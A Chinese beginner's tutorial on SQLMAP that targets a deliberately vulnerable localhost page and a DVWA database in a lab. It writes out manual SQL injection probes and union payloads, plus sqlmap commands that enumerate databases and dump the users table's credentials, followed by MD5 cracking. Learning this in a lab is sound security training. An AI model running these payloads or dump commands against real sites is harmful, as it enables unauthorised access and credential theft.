SQLMAP 新手教程（一）
文章目录
前言：现在的网络安全措施日益健全，尤其是针对像 SQL 注入这样的常见漏洞也变得越来越不常见，或者难以利用，对新手体验/学习都不是很好；而且网络安全法也日益完善，所以目前来说，我认为使用 DVWA 或者 pikachu 这样的平台来熟悉 OWASP TOP 10 以及相关安全工具的应用，是必要且稳妥的。
本文主要介绍一些 SQLMAP 的简单应用，由于暂时只是测试低级别的 SQL 注入，所以可以自己写一个有 SQL 注入的页面来进行测试，本文就是基于此的。
0x00 环境介绍
- 操作系统：Windows 10
- 软件：phpStudy v5.2 珍藏版、SQLMAP
0x01 SQL 注入漏洞页面编写
在 D:\phpStudy5.2\WWW\ 默认的网站根目录下（或者自己新建一个diy目录，记得访问时加上即可），编写以下两个文件：
conn.php //数据库连接页面
sqli.php //漏洞页面
conn.php：
1 |
|
sqli.php：这是一个超级简陋的存在 sql 注入的页面，相当于 DVWA 的 LOW 级别吧… :joy:
1 | <html> |
正常访问页面

出错情况
使用 1' and 1=1 --

使用 1' and 1=2 --

使用 1' union select 1 --

使用 1' union select 1,2 --

注：
1.注释时，-- 后面要加一个或多个空格
2.select 1,2 这种写法只在 MySQL 里比较好使，SQL Server 或者 Oracle 都应该使用 select null,null[…] 这种写法
这样可以简单地测试出是有 SQL 注入漏洞的，下面就可以使用 SQLMAP 这个神器了
0x02 使用 SQLMAP 进行测试
基本使用：sqlmap.py -u "your_url" [options] ------ 不加参数时默认只判断有没有注入点
使用 SQLMAP 查看数据库
sqlmap.py -u “http://localhost/diy/sqli.php?id=1" --dbs

使用 SQLMAP 查看当前数据库
sqlmap.py -u “http://localhost/diy/sqli.php?id=1" --current-db

使用 SQLMAP 爆出数据库(dvwa)中的表
sqlmap.py -u “http://localhost/diy/sqli.php?id=1" --table -D “dvwa”

如果 -D 不使用 " 则会报错：

使用 SQLMAP 爆出表(users)的列
sqlmap.py -u “http://localhost/diy/sqli.php?id=1" --columns -T “users” -D “dvwa”

使用 SQLMAP 破解账户密码值
sqlmap.py -u “http://localhost/diy/sqli.php?id=1" --dump -C “user,password,user_id” -T “users” -D “dvwa”

也可以使用 MD5 网站解密，结果一致

查看 SQLMAP 保存在本地的 LOG 文件
C:\Users\Admin\AppData\Local\sqlmap\output\127.0.0.1
日志文件会保存执行过的命令，以及自动化产生的 payload 方便学习

同时也会保存破解的 MD5 为 csv 文件

注：
1.-T 和 -D 选项后的值要用双引号的值括起来，单引号会报错。
今天的实验就到这里了~
原文作者: pwn4justice
原文链接: https://pwn4justice.github.io/2019/06/11/SQLMAP-新手教程（一）/
License: 知识共享署名-非商业性使用 4.0 国际许可协议